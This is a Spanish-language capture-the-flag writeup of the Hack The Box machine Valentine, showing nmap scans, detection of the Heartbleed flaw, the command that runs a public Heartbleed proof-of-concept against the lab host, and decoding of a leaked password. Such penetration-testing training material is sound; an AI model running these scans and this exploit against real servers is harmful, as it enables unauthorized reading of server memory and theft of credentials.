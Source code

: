 ```yaml
---
layout: post
title:  "OSCP Path ~ Valentine de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada VALENTINE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Cifrado Decimal, Cifrado Hex, Dovecot, Maquinas Retiradas, Writeup, Hacking
---
```


# Valentine ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10. 79      "
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-05-04T17:49:21+00:00; +1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos el script de `http-enum.nse`:
```bash
# nmap --script http-enum -p80,443 10.10.10.79 -oN Webscan                                                                        

PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  https
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
```
Vamos a proseguir lanzando scripts de nmap para identificar vulnerabilidades:
```bash
# nmap --script ssl-heartbleed.nse -p22,80,443 10.10.10.79 -oN HeartbleetScan 

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 
```
# Definicion de Heartbleet
Heartbleed (español:  hemorragia de corazón) es un agujero de seguridad de software en la  biblioteca de código abierto OpenSSL,
solo vulnerable en su versión  1.0.1f, que permite a un atacante leer la memoria de un servidor o un  cliente, permitiéndole por ejemplo,
conseguir las claves privadas SSL de  un servidor.

Podriamos a ver conseguido ver que es vulnerable lanzando el siguiente comando tambien basado en cateegorias de scripts de nmap
```bash
nmap --script “vuln and safe” 10.10.10.79 -oN ScanManchine
```

# Explotando Heartbleet
Exploit funcional de Heartbleet
https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
Lo descargamos y Lo usamos de la siguiente forma:

Donde `-n` es para el `numero de ataques/peticiones` 
Y `-f` para `guardar el resultado` en un `archivo` de output.

```bash
─# python heartbleed-poc.py 10.10.10.79 -n 150 -f heardbleed_out.txt
```
Conseguimos sacar atraves del exploit una cadena de nbase 64 que anotamos en hases como contraseña.
```bash
# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d                 
"heartbleedbelievethehype"
```
Chequeamos la web en las rutas que script `http-enum` nos habia enumerado.
En la ruta `http://10.10.10.79/dev/`
Encontramos un directory listing con dos archivos
```bash
hype_key
notes.txt
```
